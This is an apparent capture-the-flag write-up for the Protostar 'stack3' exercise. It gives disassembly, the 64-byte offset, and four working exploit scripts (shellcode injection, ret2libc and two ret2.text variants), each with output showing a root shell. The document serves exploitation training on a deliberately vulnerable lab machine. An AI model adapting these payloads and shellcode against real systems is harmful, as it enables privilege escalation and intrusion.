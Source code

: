 # stack3

## solution
Quick disassembly to see the offsets of the variables stored in the binary.
```
[0x08048370]> pdf @main
            ; DATA XREF from entry0 @ 0x8048387
┌ 65: int main (int argc, char **argv, char **envp);
│           ; var uint32_t var_60h @ esp+0x4
│           ; var char *s @ esp+0x1c
│           ; var uint32_t var_8h @ esp+0x5c
```

```
>>> 0x5c - 0x1c
64
```

```
user@protostar:/opt/protostar/bin$ python -c 'print "A"*64+"\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## shells

### classic buffer overflow
Since the program will always call the address stored in `var_8h` we can't overwrite %eip like we
usually would. So in this case we're going to use `var_8h` in the same way we would %eip, and use
it to redirect process execution.

Since we already know the offset to `var_8h` we don't need to calculate it's offset.

```py
import struct

off = 64

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff7a8 + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack3 < /tmp/pwn
calling function pointer, jumping to 0xbffff828
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2libc
Read stack0 to see how we calculated the appropriate offsets for `libc`, `system` and `/bin/sh`
required for this ret2libc exploit.

This one is a little different, as I couldn't seem to be able to call `libc` directly. So instead
I modified `var_8h` redirect back to the `ret` instruction, and execute as normal after the call.

```py
import struct

off1 = 64
pad1 = 'A' * off1

call = struct.pack('I', 0x08048478)

off2 = 12
pad2 = 'A' * off2

bin_sh = struct.pack('I', 0xb7fb63bf)
system = struct.pack('I', 0xb7ecffb0)

print pad1 + call + pad2 + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ (python /tmp/pwn.py; cat) | ./stack3
calling function pointer, jumping to 0x08048478
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to shellcode 
```
➜  stack git:(master) ✗ msfelfscan -s -f stack3
0x080484e7   edi ebp ret
0x080483f2   ebx ebp ret
0x08048517   ebx ebp ret
```

```py
import struct

off = 64

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048478)
ret += 'A' * 12

ret += struct.pack('I', 0x080484e7)

ret += 'AAAA'                              # POP
ret += 'AAAA'                              # POP
ret += struct.pack('I', 0xbffff7c4 + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack3
calling function pointer, jumping to 0x08048478
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to libc
```py
import struct

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

off = 64

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048478)
ret += 'A' * 12

ret += struct.pack('I', 0x080484e7)

ret += 'AAAA' # POP
ret += 'AAAA' # POP
ret += system # RET

print pad + ret + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ (python /tmp/pwn.py; cat) | ./stack3
calling function pointer, jumping to 0x08048478
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

